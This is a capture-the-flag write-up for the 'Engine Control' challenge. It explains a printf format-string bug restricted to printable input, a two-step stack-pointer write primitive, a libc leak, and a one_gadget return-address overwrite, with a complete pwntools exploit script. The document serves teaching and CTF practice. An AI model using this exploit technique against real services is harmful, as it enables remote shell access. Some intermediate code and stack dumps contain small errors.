

# Engine Control

### Setup and Initial Analysis

The challenge has the following description:

> These space engines are super powerful. Note: the .py file is merely used as a wrapper around the binary. We did not put any vulnerabilities in the wrapper \(at least not on purpose\). The binary is intentionally not provided, but here are some properties:

```text
  Arch:     amd64-64-little
  RELRO:    Partial RELRO
  Stack:    Canary found
  NX:       NX enabled
  PIE:      No PIE (0x400000)
```

We are also provided with 2 files: `engine.c` and `engine.py`:


```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>


int main(void) {

 char i[200] = {0};
 setbuf(stdout, 0);

 printf("\033[1mCommand: \033[0m");

 while(fgets(i, 200, stdin)!=NULL) {
    i[strcspn(i,"\n")] = 0;

    if (strlen(i) > 0) {
            printf("Running command (");
            printf(i);
            printf(") now on engine.\n");
    }

    printf("\033[1mCommand: \033[0m");
 }
}

```



```python
from pwnlib.tubes.process import *
from pwnlib.term.readline import *
from pwnlib.util import *
import sys
import string

l = tube()
l.send_raw = lambda x: (sys.stdout.buffer.write(x), sys.stdout.flush())
l.connected_raw = lambda d: True

p = process("./engine")

t = tube()
t.send_raw = lambda x: l.send(x)
t.connected_raw = lambda d: True
t.shutdown = lambda d: l.close()

p.connect_output(t)

while True:
    if not p.connected():
        l.close()

    inp = str_input()

    if any(c not in string.ascii_letters + string.digits + string.punctuation for c in inp):
        l.sendline("Invalid input.")
        p.sendline()
    else:
        p.sendline(inp)
```


Since we are given source code rather than a compiled binary, we will compile it ourselves, also making sure we match the specifications mentioned in the description:

```bash
└─$ gcc -fstack-protector -no-pie -g -o engine engine.c
```

We can double check we have the correct properties by running checksec on the compiled binary:

```bash
└─$ checksec engine
[*] 'engine'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

```

Checksec matches the output provided in the description so everything is good so far.

### Interaction with the binary

What the binary basically does is accept input from us and echo back whatever we tell it:

```bash
└─$ ./engine  
Command: hello
Running command (hello) now on engine.
Command: help
Running command (help) now on engine.
Command:
```

### Code analysis

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>


int main(void) {

 char i[200] = {0};
 setbuf(stdout, 0);

 printf("\033[1mCommand: \033[0m");

 while(fgets(i, 200, stdin)!=NULL) {
    i[strcspn(i,"\n")] = 0;

    if (strlen(i) > 0) {
            printf("Running command (");
            printf(i);
            printf(") now on engine.\n");
    }

    printf("\033[1mCommand: \033[0m");
 }
}

```

Looking back at the source code provided in `engine.c` we can see how the mechanism works.  
There is a loop that reads 200 bytes of our input, null terminates it, and uses `printf` to echo back our input to us.

We see the vulnerability on line `18` where the data is printed to us using a `printf` call, and our input is passed as the `format` parameter to the `printf` call. This is a typical format string vulnerability which may yield us arbitrary read and write.

Not so fast, the description of the challenge mentions it uses the python script as a wrapper around the binary when we communicate with it.  
If we have a look at the python script:

```python
from pwnlib.tubes.process import *
from pwnlib.term.readline import *
from pwnlib.util import *
import sys
import string

l = tube()
l.send_raw = lambda x: (sys.stdout.buffer.write(x), sys.stdout.flush())
l.connected_raw = lambda d: True

p = process("./engine")

t = tube()
t.send_raw = lambda x: l.send(x)
t.connected_raw = lambda d: True
t.shutdown = lambda d: l.close()

p.connect_output(t)

while True:
    if not p.connected():
        l.close()

    inp = str_input()

    if any(c not in string.ascii_letters + string.digits + string.punctuation for c in inp):
        l.sendline("Invalid input.")
        p.sendline()
    else:
        p.sendline(inp)
```

We see that all it does, is forward our input to the binary, and the binary's output back to us. The thing to take notice to here, is on lines `26-30`

There is an interesting restriction on our input before it is sent to the binary. It checks whether it contains anything other than a letter, a digit, or punctuation. In other words, we are restricted only to printable characters. If the input contains non-printable characters the input is discarded entirely.  
  
So maybe arbitrary read and write may not be so easy after all...

### Bypassing the restriction

The following content is made on the assumption that the reader is already familiar with format string exploitation, and how `printf` works. If not refer to the following [link](https://www.exploit-db.com/docs/english/28476-linux-format-string-exploitation.pdf), its a good tutorial on getting started with format string exploitation.  
  
A typical arbitrary read using a format string exploit on x64 would look something like this:  
`%7$sAAAA\xef\xbe\xad\xde\x0d\xd0\xde\xc0`

Where `\xef\xbe\xad\xde\x0d\xd0\xde\xc0` is the address to read from, in this case 0xc0ded00ddeadbeef, and `%7$s` is the format specifier that `printf` will use to print the contents at that address that we provided. So the general form is: `%"position of the address on the stack"$s"padding until 8 bytes""address"`.  
  
Now the only problem here is that we can't pass non-printable characters, so the `%7$s` part will pass the test, whereas the address part won't. Therefore the input will get rejected, and our read will not happen.  
  
Same goes for arbitrary write which takes the form of:  
`%4919c%8$hnAAAAA\xef\xbe\xad\xde\x0d\xd0\xde\xc0`

With that input, the value 0x1337 will get written at the address 0xc0ded00ddeadbeef as a short value.  
Again with arbitrary read, this input will not pass due to it containing non printable characters in the address part.

What if we can use addresses already existing on the stack? There are definitely going to be a few LIBC addresses that could allow us to leak the remote LIBC version, and calculate the base.  
  
Lets check the contents of the stack just before the `printf` call:

```python
pwndbg> stack 0x3a
00:0000│ rdi rsp 0x7fffffffddf0 ◂— 0x786c24333325 /* '%33$lx' */
01:0008│         0x7fffffffddf8 ◂— 0x0
... ↓            23 skipped
19:00c8│         0x7fffffffdeb8 ◂— 0x452e06b170277e00
1a:00d0│ rbp     0x7fffffffdec0 —▸ 0x401350 (__libc_csu_init) ◂— push   r15
1b:00d8│         0x7fffffffdec8 —▸ 0x7ffff7e13d0a (__libc_start_main+234) ◂— mov    edi, eax
1c:00e0│         0x7fffffffded0 —▸ 0x7fffffffdfb8 —▸ 0x7fffffffe2e5 ◂— '/home/p00dl3/Documents/CTFS/CTF/hackyholidays/pwn/engine-control/engine'
1d:00e8│         0x7fffffffded8 ◂— 0x100000000
1e:00f0│         0x7fffffffdee0 —▸ 0x401172 (main) ◂— push   rbp
1f:00f8│         0x7fffffffdee8 —▸ 0x7ffff7e137cf (init_cacheinfo+287) ◂— mov    rbp, rax
20:0100│         0x7fffffffdef0 ◂— 0x0
21:0108│         0x7fffffffdef8 ◂— 0xff4ab7143aa6b0ee
22:0110│         0x7fffffffdf00 —▸ 0x401090 (_start) ◂— xor    ebp, ebp
23:0118│         0x7fffffffdf08 ◂— 0x0
... ↓            2 skipped
26:0130│         0x7fffffffdf20 ◂— 0xb5486ba1a6b0ee
27:0138│         0x7fffffffdf28 ◂— 0xb558566580b0ee
28:0140│         0x7fffffffdf30 ◂— 0x0
... ↓            2 skipped
2b:0158│         0x7fffffffdf48 ◂— 0x1
2c:0160│         0x7fffffffdf50 —▸ 0x7fffffffdfb8 —▸ 0x7fffffffe2e5 ◂— '/home/p00dl3/Documents/CTFS/CTF/hackyholidays/pwn/engine-control/engine'
2d:0168│         0x7fffffffdf58 —▸ 0x7fffffffdfc8 —▸ 0x7fffffffe32d ◂— 'COLORFGBG=15;0'
2e:0170│         0x7fffffffdf60 —▸ 0x7ffff7ffe180 ◂— 0x0
2f:0178│         0x7fffffffdf68 ◂— 0x0
30:0180│         0x7fffffffdf70 ◂— 0x0
31:0188│         0x7fffffffdf78 —▸ 0x401090 (_start) ◂— xor    ebp, ebp
32:0190│         0x7fffffffdf80 —▸ 0x7fffffffdfb0 ◂— 0x1
33:0198│         0x7fffffffdf88 ◂— 0x0
34:01a0│         0x7fffffffdf90 ◂— 0x0
35:01a8│         0x7fffffffdf98 —▸ 0x4010ba (_start+42) ◂— hlt    
36:01b0│         0x7fffffffdfa0 —▸ 0x7fffffffdfa8 ◂— 0x1c
37:01b8│         0x7fffffffdfa8 ◂— 0x1c
38:01c0│         0x7fffffffdfb0 ◂— 0x1
39:01c8│         0x7fffffffdfb8 —▸ 0x7fffffffe2e5 ◂— '/home/p00dl3/Documents/CTFS/CTF/hackyholidays/pwn/engine-control/engine'
pwndbg>
```

We can see our input buffer, a canary, base pointer, return address, stack pointers, etc. There is plenty for us to work with there. We can use the value at index `1b` to leak and calculate the LIBC version and base during exploitation. All we need to do is pass a `%p` specifier to get the value. We need the `1b`th index so that would be `%33$p`. We calculate the value to pass to `printf` by `stack index + 6` because the first 5 parameters are held in registers, RSI, RDX, RCX, R9 and R10. So the first parameter on the stack is actually the 6th parameter for `printf`.  
  
So we have figured out a way for leaking LIBC, but what about writing?  
This is where we have to get creative.  
  
We can see from the contents of the stack there are several pointers to the stack itself, for e.g. at index `1c`. Great, so now we have a pointer on the stack that points into the stack. We can just use it to write an arbitrary address to the stack and then just reference the written address in another `printf` call.  
  
The only problem is, we won't be able to just write one whole 8 byte value, its just way too large and will take a very long time until `printf` writes all the spaces back to stdout. So we could write 2 bytes by 2 bytes but we can't change the first pointer to point +2 bytes to write the next part of the value so we will have to find another way.  
  
We can see that the pointer we are using is actually a double pointer. So a pointer to a pointer, where both addresses are in the stack. What if we use the 2nd pointer to write 2 bytes of our address on the stack and use the 1st pointer to increment the 2nd pointer and write the next 2 bytes and so on. All we need for that is a stack leak, which we can obtain by leaking the value in index `1c`.

I'll demonstrate this visually with a simplified layout of the stack showing only the important stack values. Here is how we are going to get an arbitrary value of `0xc0dedeadbeef` on the stack:

So this is the stack layout before the first `printf` call:

```python
Index       |    stack address   |    value     

00:0000│ rdi rsp 0x7fffffffddf0 ◂— 0x786c24333325 /* '%33$lx' */
01:0008│         0x7fffffffddf8 ◂— 0x0
... ↓            22 skipped
18:00c0|         0x7fffffffdeb0 ◂— 0x0
...
1c:00e0│         0x7fffffffded0 —▸ 0x7fffffffdfb8 —▸ 0x7fffffffe2e5 ◂— '/home/p00dl3/Documents/CTFS/CTF/hackyholidays/pwn/engine-control/engine'
...
39:01c8│         0x7fffffffdfb8 —▸ 0x7fffffffe2e5 ◂— '/home/p00dl3/Documents/CTFS/CTF/hackyholidays/pwn/engine-control/engine'
```

So we can see here that at indexes `00-18` is our input buffer, `1c` contains the pointer pointing to index `39` and at `39` the pointer pointing to a string further on in the stack.

Since the pointer in index `39` is already a stack pointer, all we need to do is change the lower 2 bytes since the upper 4 are already set for us.

First, let's change the pointer in `39` to point to the last 8 bytes of our input buffer with the following format string: `%57008c%34$hn`. Here is how the following string is made:  
The last 2 bytes of the address of the end of our input buffer is `deb0` which in decimal is `57008`.  
We want to change the last 2 bytes of the pointer in `39`, so we will use the 1st pointer in `1c` to change it. We will need to reference the pointer in `1c` with our `%hn`, so that would be`1c + 6 = 22 (34 in decimal)`.

After sending the format string, and checking the contents of the stack again we see how the pointer in `39` is now pointing to index `18` of the last 8 bytes of our input buffer:

```python
Index       |    stack address   |    value     

00:0000│ rdi rsp 0x7fffffffddf0 ◂— '%57008c%34%hn'
01:0008│         0x7fffffffddf8 ◂— '34$hn'
... ↓            22 skipped
18:00c0|         0x7fffffffdeb0 ◂— 0x0
...
1c:00e0│         0x7fffffffded0 —▸ 0x7fffffffdfb8 —▸ 0x7fffffffdeb0 ◂— 0x0
...
39:01c8│         0x7fffffffdfb8 —▸ 0x7fffffffdeb0 ◂— 0x0
```

Now to start writing our arbitrary value, we just reference `39` with our `%hn`: `%48879c%63$hn`\(48879 = 0xbeef, 0x39 + 6 = 63\).  
  
Checking the stack again:

```python
Index       |    stack address   |    value     

00:0000│ rdi rsp 0x7fffffffddf0 ◂— '%48879c%63$hn'
01:0008│         0x7fffffffddf8 ◂— '63$hn'
... ↓            22 skipped
18:00c0|         0x7fffffffdeb0 ◂— 0xbeef
...
1c:00e0│         0x7fffffffded0 —▸ 0x7fffffffdfb8 —▸ 0x7fffffffdeb0 ◂— 0xbeef
...
39:01c8│         0x7fffffffdfb8 —▸ 0x7fffffffdeb0 ◂— 0xbeef
```

To write the next 2 bytes of our value, we will use `1c` to increment the pointer in `39` by 2: `%57010c%34$hn`:

```python
Index       |    stack address   |    value     

00:0000│ rdi rsp 0x7fffffffddf0 ◂— '%57010c%34%hn'
01:0008│         0x7fffffffddf8 ◂— '34$hn'
... ↓            22 skipped
18:00c0|         0x7fffffffdeb0 ◂— 0xbeef
...
1c:00e0│         0x7fffffffded0 —▸ 0x7fffffffdfb8 —▸ 0x7fffffffdeb2 ◂— 0x0
...
39:01c8│         0x7fffffffdfb8 —▸ 0x7fffffffdeb2 ◂— 0x0
```

Then use `39` again to write the next 2 bytes of our value `0xdead`, `%57005c%63$hn`:

```python
Index       |    stack address   |    value     

00:0000│ rdi rsp 0x7fffffffddf0 ◂— '%57005c%34%hn'
01:0008│         0x7fffffffddf8 ◂— '34$hn'
... ↓            22 skipped
18:00c0|         0x7fffffffdeb0 ◂— 0xdeadbeef
...
1c:00e0│         0x7fffffffded0 —▸ 0x7fffffffdfb8 —▸ 0x7fffffffdeb0 ◂— 0xdead
...
39:01c8│         0x7fffffffdfb8 —▸ 0x7fffffffdeb0 ◂— 0xdead
```

Again increment the pointer in `39` and write the last 2 bytes of our value: `0xc0de`. The 2 format strings are `%57012c%34$hn` and `%49374c%63$hn` respectively. After sending those 2 strings and checking the stack we should see our value `0xc0dedeadbeef` on the stack at index `18`:

```python
Index       |    stack address   |    value     

00:0000│ rdi rsp 0x7fffffffddf0 ◂— '%49374c%63$hn'
01:0008│         0x7fffffffddf8 ◂— '63$hn'
... ↓            22 skipped
18:00c0|         0x7fffffffdeb0 ◂— 0xc0dedeadbeef
...
1c:00e0│         0x7fffffffded0 —▸ 0x7fffffffdfb8 —▸ 0x7fffffffdeb6 ◂— 0x0
...
39:01c8│         0x7fffffffdfb8 —▸ 0x7fffffffdeb6 ◂— 0x0
```

This method can actually be done programmatically in python:

```python
def write(value):	
	addr = stack_leak - 0x108 #calculate the address of the last 8 bytes of input buffer
	for i in range(3):
		str_addr = (addr & 0xffff) + 2*i #get the last 2 bytes of the address of buffer, and incremnt accordingly
		str_value = (value >> 0x10*i) & 0xffff #get the 2 bytes of the value we are writing
		
		sendString(f"%{str_addr}c%34$hn")
		sendString(f"%{str_value}c%63$hn")
```

### Achieving arbitrary write

Now since we have the ability to get arbitrary values on the stack we can achieve arbitrary read and write by getting an address on the stack and referencing it with `%s` or `%n`.

We already have a LIBC leak and a stack leak all we really need is an arbitrary write. We can rework our previous function into a write-what-where:

```python
def write(what, where):
	addr = stack_leak - 0x108 #calculate the address of the last 8 bytes of input buffer
	for i in range(3):
		str_addr = (addr & 0xffff) + 2*i #get the last 2 bytes of the address of buffer, and incremnt accordingly
		str_value = (value >> 0x10*i) & 0xffff #get the 2 bytes of the value we are writing
		
		sendString(f"%{str_addr}c%34$hn")
		sendString(f"%{str_value}c%63$hn")

#make our pointer in 63 point to the beginning of our 8 bytes in the buffer again
	sendCommand(f"%{(addr & 0xffff):d}c%34$hn")

#30 is the stack index of the last 8 bytes of the input buffer where we write the address
	sendCommand(f"%{(what & 0xffff):d}c%30$hn") #write the first 2 bytes of our value at our specified address
	for i in range(1, 3):
		sendString(f"%{(where + 2*i) & 0xffff:d}c%63$hn") #increment our address by 2, to write the next 2 bytes
		sendString(f"%{(what >> 0x10*i) & 0xffff:d}c%30$hn") #write the next 2 bytes of our value
```

### Exploitation

We have a couple of targets we can overwrite to get RCE with a one-gadget, a return address or `_malloc_hook`. In this case I would go with overwriting a return address as `malloc` may be called more than once in a `printf` call.

The only problem now is that the above write-what-where method uses several `printf` calls. Since writes are done with 2 bytes at the time of a `printf` call, the return address will have an invalid address leading to a segfault.

So we could just put 3 addresses on the stack each with a difference of 2 bytes, and just reference all 3 of them in a single`printf` call to write a 6 byte value\(or address\) at an arbitrary location.

If we wanted to write the value `0xc0dedeadbeef` at `0x7fffedbb0000`we would setup the 3 addresses on the stack using our write-what-where as the following:

```aspnet
0x15: 0x7fffedbb0000
0x16: 0x7fffedbb0000 + 2
0x17: 0x7fffedbb0000 + 4
```

And then send the following format string: `%48879c%27$hn%495c%29$hn%7631c%28$hn`.  
Since `printf` doesn't reset the counter for every `%n`, what we do is we start with the smallest value and then use the difference between the current counter and the next value for the next write. So in the format string above, we start with 48879 \(0xbeef hex\) and write it to its corresponding position in `0x7fffedbb0000`.  
After `0xbeef` comes `0xc0de`, but we won't use the decimal value for `0xc0de` but rather the difference: `0xc0de - 0xbeef = 0x1ef (495 decimal)` hence the 495 in the format string. Same goes for the next value `0xdead` we use `0xdead - 0xc0de = 0x1dcf (7631 decimal)`.

Again this can be done programmatically in python:

```python
#get the 3 parts of our value
first = (value >> 0x00) & 0xffff
second = (value >> 0x10) & 0xffff
third = (value >> 0x20) & 0xffff

#sort from smallest to largest
parts = [first, second, third]
parts.sort()

#calculate the differences
f2s = parts[1] - parts[0]
s2t = parts[2] - parts[1]

#calculate what will be put in the format string
value1 = parts[0]
index1 = 27 + parts.index(first)

value2 = f2s
index2 = 27 + parts.index(second)

value3 = s2t
index3 = 27 + parts.index(third)

#execute the write
sendString(f"%{value1}c%{index1}$hn%{value2}c%{index2}$hn%{value3}c%{index3}$hn")
```

Now we can make a write-what-where using only one `printf` call:

```python
def one_call_write(what, where):
#we will use stack indexes 15-17 to write our 3 addresses for the printf call
    stack_15 = stack_leak - 0x120

#write the 3 addresses at indexes 15-17 using the write function we defined earlier
    write(where, stack_15)
    write(where + 2, stack_15+8)
    write(where + 4, stack_15+16)
    
#now that we have our 3 addresses on the stack, we construct the final write:

#get the 3 parts of our value
    first = (what >> 0x00) & 0xffff
    second = (what >> 0x10) & 0xffff
    third = (what >> 0x20) & 0xffff

#sort from smallest to largest
    parts = [first, second, third]
    parts.sort()

#calculate the differences
    f2s = parts[1] - parts[0]
    s2t = parts[2] - parts[1]

#calculate what will be put in the format string
    value1 = parts[0]
    index1 = 27 + parts.index(first)

    value2 = f2s
    index2 = 27 + parts.index(second)

    value3 = s2t
    index3 = 27 + parts.index(third)

#execute the write
    sendString(f"%{value1}c%{index1}$hn%{value2}c%{index2}$hn%{value3}c%{index3}$hn")
```

All that's left now is to use a one\_gadget to overwrite a return address with, and we get a shell. Just before the `printf` call, we know that the input buffer is at the top of the stack. That means that the return address for the `printf` call will be 8 bytes above our input buffer.

```python
Index       |    stack address   |    value     
                        '-----return address will be here-----'
00:0000│ rdi rsp 0x7fffffffddf0 ◂— 0x786c24333325 /* '%33$lx' */
01:0008│         0x7fffffffddf8 ◂— 0x0
... ↓            22 skipped
18:00c0|         0x7fffffffdeb0 ◂— 0x0
...
1c:00e0│         0x7fffffffded0 —▸ 0x7fffffffdfb8 —▸ 0x7fffffffe2e5 ◂— '/home/...'
...
39:01c8│         0x7fffffffdfb8 —▸ 0x7fffffffe2e5 ◂— '/home/...'
```

We can just calculate the position of the return address using `stack_leak - 0x1e0`. So in this case it will be `0x7fffffffddd8`.

There is one more thing we will need to do before exploiting the challenge and that is analyze the stack of the remote challenge. This is because we were initially given source code rather than a compiled binary and since we built the binary ourselves, the stack layouts may be different.

This is a dump of the remote stack:

```python
6   0x706c243625     
7   nil              
8   nil              
9   nil              
10  nil              
11  nil              
12  nil              
13  nil              
14  nil              
15  nil              
16  nil              
17  nil              
18  nil              
19  nil              
20  nil              
21  nil              
22  nil              
23  nil              
24  nil              
25  nil              
26  nil              
27  nil              
28  nil              
29  nil              
30  nil              
31  0xf19c6f52f47eab0
32  0x7fff82d53700   
33  nil              
34  0x400840         
35  0x7f814f5d2bf7   
36  0x2000000000     
37  0x7fff82d53708   
38  0x100000000      
39  0x400720         
40  nil              
41  0xfd6f958c1dcc086
42  0x400610         
43  0x7fff82d53700   
44  nil              
45  nil              
46  0x29090a6612c0868
47  0x26d0bb65a120868
48  0x7fff00000000   
49  nil              
50  nil              
51  0x7f814f9b28d3   
52  0x7f814f998638   
53  0x4e99c          
54  nil              
55  nil              
56  nil              
57  0x400610         
58  0x7fff82d53700   
59  0x400639         
60  0x7fff82d536f8   
61  0x1c             
62  0x1              
63  0x7fff82d53e35   
64  nil              
65  0x7fff82d53e3e   
```


From now we are referencing "stack indexes" as what would be sent in the format string


After close analysis we see that the double pointer we use for our writes is at index `37`, and not `34` as we were using previously. And the 2nd pointer that `37` is pointing to remains the same at index `63`. The last thing we will have to adjust for the remote challenge is the LIBC leak which is now at `35` and not `33`.

Checking the leaked LIBC address in a [libc database](https://libc.nullbyte.cat) provides us with 2 possible LIBC versions:



We will use `libc62.27-3ubuntu1.4amd64` for our python script when exploiting.

Running `one_gadget` on the libc:

```aspnet
└─$ one_gadget libc.so.6
0x4f3d5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f432 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a41c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

Now we can construct our exploit script:

```python
from pwn import *
from time import sleep

elf = context.binary = ELF("./compiled/engine_remote")
gs = """
c
"""

def run():
        global libc
        if args.R:
                io = remote("136.243.68.77", 17009)
                libc = ELF("./lib/libc.so.6")
        elif args.D:
                libc = process(elf.path).libc
                io = gdb.debug(elf.path, gs)
        else:
                io = process(elf.path)
                libc = io.libc

        return io

def logaddr(addr, name):
        log.success(f"{name} @ {hex(addr)}")


def sendString(cmd, v=False, s=0):
        if v:
                print(f"Sending payload: {cmd}")
        io.sendline(cmd)
        sleep(s)

def extract_value():
        io.recvuntil('(')
        return int(io.recvuntil(')')[:-1], 16)

io = run()
libc.address = 0

#---=== LEAK LIBC ===---

sendString(f'%35$lx')
libc_leak = extract_value()
logaddr(libc_leak, "libc leak")
libc.address = libc_leak - (libc.sym.__libc_start_main + 234)
logaddr(libc.address, "libc")

#---=== LEAK STACK ===---
sendString('%37$p')
stack_addr = extract_value()
logaddr(stack_addr, "stack addr")


#----=== write what, where ===----
def write(what, where):
        addr = stack_addr - 0x108
        for i in range(3):
                sendString(f"%{(addr & 0xffff) + 2*i:d}c%37$hn")
                sendString(f"%{(where >> 0x10*i) & 0xffff:d}c%63$hn")

        sendString(f"%{(addr & 0xffff):d}c%37$hn")
        sendString(f"%{(what & 0xffff):d}c%30$hn")

        for i in range(1, 3):
                print(i)
                sendString(f"%{(where + 2*i) & 0xffff:d}c%63$hn")
                sendString(f"%{(what >> 0x10*i) & 0xffff:d}c%30$hn")

def one_call_write(what, where):
#we will use stack indexes 15-17 to write our 3 addresses for the printf call
        stack_15 = stack_addr - 0x120

#write the 3 addresses at indexes 15-17 using the write function we defined earlier
        write(where, stack_15)
        write(where + 2, stack_15+8)
        write(where + 4, stack_15+16)

#now that we have our 3 addresses on the stack, we construct the final write:

#get the 3 parts of our value
        first = (what >> 0x00) & 0xffff
        second = (what >> 0x10) & 0xffff
        third = (what >> 0x20) & 0xffff

#sort from smallest to largest
        parts = [first, second, third]
        parts.sort()

#calculate the differences
        f2s = parts[1] - parts[0]
        s2t = parts[2] - parts[1]

#calculate what will be put in the format string
        value1 = parts[0]
        index1 = 27 + parts.index(first)

        value2 = f2s
        index2 = 27 + parts.index(second)

        value3 = s2t
        index3 = 27 + parts.index(third)

#execute the write
        sendString(f"%{value1}c%{index1}$hn%{value2}c%{index2}$hn%{value3}c%{index3}$hn")

#future return address location
ret_addr = stack_addr - 0x1e0
onegadget = libc.address + 0x4f3d5

one_call_write(onegadget, ret_addr)

io.interactive() #shell
```

